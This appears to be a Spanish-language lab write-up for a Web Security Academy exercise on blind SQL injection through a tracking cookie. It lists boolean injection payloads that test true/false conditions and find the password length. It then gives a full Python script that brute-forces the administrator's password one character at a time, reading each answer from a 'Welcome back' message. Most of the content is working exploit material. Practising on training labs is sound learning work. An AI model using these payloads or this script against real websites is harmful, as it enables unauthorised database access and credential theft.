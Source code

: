 
La cookie de session "TrackingId"  es vulnerable a SQLI

* Cookie: TrackingId=sS0Qz9nx8FBcjUMr' union select NULL-- -
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr' and 1=1-- - (True)
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr' and 'a'='a'-- - (True)
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr' and (select 'a')='a'-- - (True)
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr' and (select 'b')='a'-- - (False)
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr' and (select 'a' from users where username='administrator')='a'-- -
    * Si esto "select 'a' from users where username='administrator'" existe devuelve la letra "a"
    * Si es falso, no devuelve "a"
* cookie_value' and (select substring(username,1,1) from users where username='administrator')='a'-- -
    * Esto es verdadero si el primer caracter del usuario es "a"
    * Falso si no existe

Se comienda primero debemos de saber cuantos caracteres tiene la contraseña
* cookie_value' and (select 'a' from users where username='administrator' and length(password) >10)='a'-- -
* cookie_value' and (select 'a' from users where username='administrator' and length(password) >20)='a'-- -
* cookie_value' and (select 'a' from users where username='administrator' and length(password) >=20)='a'-- -


Script en Python para minar la contraseña del usuario "Administrator":


```python
from pwn import *
from termcolor import colored
import requests
import sys
import signal
import string
import time


def def_handler(sys, frame):
    print(colored("\n\n[!] Saliendo....\n",'red'))
    exit(1)

signal.signal(signal.SIGINT, def_handler)

characteres = string.ascii_lowercase + string.digits #"a-z" y "0-9"
main_url = "https://0a8b00770465c3a081e875a800e40044.web-security-academy.net"

def makeRequest():

    p1 = log.progress("SQLI")
    p1.status("Iniciando Ataque de Fuerza Bruta")

    time.sleep(2)

    password=""

    p2 = log.progress("Password:")

    for position in range(1,21):
        for character in characteres:
            cookies = {
                    'TrackingId':f"BCpP9o0mbYNs1DCH' and (select substring(password,{position},1) from users where username='administrator')='{character}'-- -",
                    'session':'soVwrxtWtMEn60HHZjpZApVEYbX1AIOt'
            }
            #print (cookies["TrackingId"]) Para probar como esta haciendo cada query en cada posicion

            p1.status(cookies["TrackingId"])

            r = requests.get(main_url,cookies=cookies)

        
            if "Welcome back" in r.text:
                password+=character
                p2.status(password)
                break

if __name__ == '__main__':
    makeRequest()

```
